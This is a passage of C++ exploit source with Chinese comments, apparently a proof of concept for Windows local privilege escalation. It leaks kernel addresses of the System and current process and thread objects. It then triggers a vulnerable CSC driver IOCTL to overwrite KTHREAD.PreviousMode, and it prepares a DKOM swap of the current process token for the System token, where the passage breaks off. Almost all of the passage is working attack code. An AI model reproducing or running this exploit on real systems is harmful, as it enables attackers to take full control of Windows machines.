 ``````cpp
    }

    //
    // 泄露System进程(PID 4)的_EPROCESS内核地址
    // 使用句柄4来获取System进程对象地址
    // 
    Ret = GetObjPtr(&Sysproc, 4, 4);
    if (Ret != NULL)
    {
        return Ret;
    }
    printf("[+] System EPROCESS address = %llx\n", Sysproc);

    //
    // 泄露当前_KTHREAD内核地址
    // 打开当前线程获取句柄,然后通过句柄获取内核对象地址
    //
    hThread = OpenThread(THREAD_QUERY_INFORMATION, TRUE, GetCurrentThreadId());
    if (hThread != NULL)
    {
        Ret = GetObjPtr(&Curthread, GetCurrentProcessId(), hThread);
        if (Ret != NULL)
        {
            return Ret;
        }
        printf("[+] Current THREAD address = %llx\n", Curthread);
    }

    //
    // 泄露当前_EPROCESS内核地址
    // 打开当前进程获取句柄,然后通过句柄获取内核对象地址
    //
    hCurproc = OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, GetCurrentProcessId());
    if (hCurproc != NULL)
    {
        Ret = GetObjPtr(&Curproc, GetCurrentProcessId(), hCurproc);
        if (Ret != NULL)
        {
            return Ret;
        }
        printf("[+] Current EPROCESS address = %llx\n", Curproc);
    }

    //
    // 发送载荷触发漏洞
    // 利用易受攻击的IOCTL,传入特定偏移的地址(KTHREAD.PreviousMode-0x18)
    // 当驱动处理此IOCTL时,会错误地向计算出的位置写入数据
    // 这将覆盖KTHREAD.PreviousMode,使其变为0(KernelMode)
    //
    status = NtFsControlFile(handle, NULL, NULL, NULL, &iosb, CSC_DEV_FCB_XXX_CONTROL_FILE, 
                           /*关键参数*/ (void*)(Curthread + KTHREAD_PREVIOUS_MODE_OFFSET - 0x18), 0, NULL, 0);
    if (!NT_SUCCESS(status))
    {
        printf("[-] NtFsControlFile failed with status = %x\n", status);
        return status;
    }

    printf("[!] Leveraging DKOM to achieve LPE\n");
    printf("[!] Calling Write64 wrapper to overwrite current EPROCESS->Token\n");
    
    // DKOM操作:用System进程的Token覆盖当前进程的Token
    // 因为PreviousMode已被设为0(KernelMode),所以我们可以写入内核内存
``````